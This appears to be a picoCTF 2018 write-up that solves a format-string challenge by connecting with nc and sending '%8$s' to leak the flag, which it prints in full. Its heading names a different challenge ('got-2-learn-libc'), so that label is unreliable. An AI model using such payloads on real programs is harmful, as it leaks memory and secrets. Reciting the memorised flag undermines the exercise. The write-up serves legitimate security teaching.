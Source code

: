 # got-2-learn-libc - Points: 250 - (Solves: 113)

This [program][1] prints any input you give it.
Can you leak the flag?
Connect with nc 2018shell2.picoctf.com 23397.
[Source][2].

[1]: https://2018shell2.picoctf.com/static/802110a231267eb07cdead16416dea12/echo
[2]: https://2018shell2.picoctf.com/static/802110a231267eb07cdead16416dea12/echo.c

## Hints

- If only the program used puts...

---

```sh
$ nc 2018shell2.picoctf.com 23397
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %8$s
picoCTF{foRm4t_stRinGs_aRe_DanGer0us_254148ae}
```
